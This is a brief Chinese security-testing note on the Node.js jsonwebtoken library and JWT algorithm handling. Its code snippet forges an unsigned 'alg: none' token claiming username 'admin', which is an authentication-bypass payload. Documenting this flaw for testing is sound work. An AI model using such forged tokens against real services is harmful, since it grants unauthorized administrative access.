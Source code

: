 nodejs中的jwt库在签名时用algorithm指定算法，而在验签时用algorithms指定算法
在测试jwt相关的安全问题时可以使用burpsuite的JOSEPH插件辅助测试

```ts
// https://www.secpulse.com/archives/129304.html
const jwt = require('jsonwebtoken');

var payload = {
    secretid: [],
    username: 'admin',
}
var token = jwt.sign(payload, undefined, {algorithm: 'none'});
console.log(token);
```

